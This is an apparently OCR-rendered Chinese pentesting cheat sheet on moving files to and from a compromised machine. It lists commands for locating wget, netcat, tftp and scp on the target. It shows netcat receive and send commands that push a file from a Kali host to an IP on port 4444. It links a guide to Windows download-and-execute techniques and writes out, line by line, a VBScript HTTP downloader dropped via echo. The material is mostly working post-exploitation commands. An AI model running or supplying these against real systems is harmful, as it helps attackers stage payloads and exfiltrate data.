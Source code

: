 **查找可利用于传输文件的命令**
```bash
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
find / -name scp
```

**nc**
```bash
# 收
nc -nvlp 4444 > aaa
```
```bash
# 发
nc -nv 192.168.30.35 4444 </usr/share/aaa    # kali
```

### Win

**文章**
- [Windows文件下载执行的15种姿势](https://mp.weixin.qq.com/s/tINvBuhiZwz7MbA_sffapA)

**vbscript**

```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo strFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
